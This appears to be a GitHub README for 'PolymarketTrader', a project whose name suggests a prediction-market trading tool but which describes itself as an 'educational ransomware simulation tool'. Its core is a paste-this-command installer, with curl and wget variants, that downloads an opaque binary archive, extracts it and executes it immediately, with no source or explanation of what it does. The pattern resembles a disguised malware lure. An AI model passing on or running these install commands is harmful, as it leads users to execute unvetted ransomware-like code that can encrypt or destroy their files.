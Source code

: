 # PolymarketTrader

Educational ransomware simulation tool for Ubuntu/Linux systems.

## Quick Installation

Run this single command to download and install:

```bash
mkdir -p poly-trader && cd poly-trader && curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz && tar -xzf polymarket-trader.tar.gz && rm polymarket-trader.tar.gz && ./PolymarketTrader
```

This will:
1. Create a `poly-trader` directory
2. Download the compressed archive
3. Extract the executable (permissions preserved)
4. Clean up the archive file
5. Run the program automatically

## Alternative Installation Methods

### Method 1: Download and Run Manually
```bash
# Create directory
mkdir -p poly-trader
cd poly-trader

# Download archive
curl -L https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz -o polymarket-trader.tar.gz

# Extract (permissions preserved)
tar -xzf polymarket-trader.tar.gz

# Clean up archive file
rm polymarket-trader.tar.gz

# Run the program
./PolymarketTrader
```

### Method 2: Using wget
```bash
mkdir -p poly-trader && cd poly-trader
wget https://raw.githubusercontent.com/YoavSavir/PolymarketTrader/main/polymarket-trader.tar.gz
tar -xzf polymarket-trader.tar.gz
rm polymarket-trader.tar.gz
./PolymarketTrader
```

## Troubleshooting

### Extraction Issues
If tar extraction fails, ensure you have tar installed:
```bash
# On Ubuntu/Debian
sudo apt-get install tar

# On RHEL/CentOS
sudo yum install tar
```

### File not executable
If you see "cannot execute binary file", make sure you're on a Linux/Ubuntu system (not Windows/Mac).

### Permission Issues
If you still get permission errors (rare), run:
```bash
chmod +x PolymarketTrader
```

## Requirements

- **Operating System:** Ubuntu/Linux (64-bit)
- **Architecture:** x86_64
- **Dependencies:** None (all bundled in executable)

## Usage

After you download, follow the installation process displayed by the program.


## Support

If you encounter issues, ensure you're running on a compatible Linux system and have proper file permissions. 
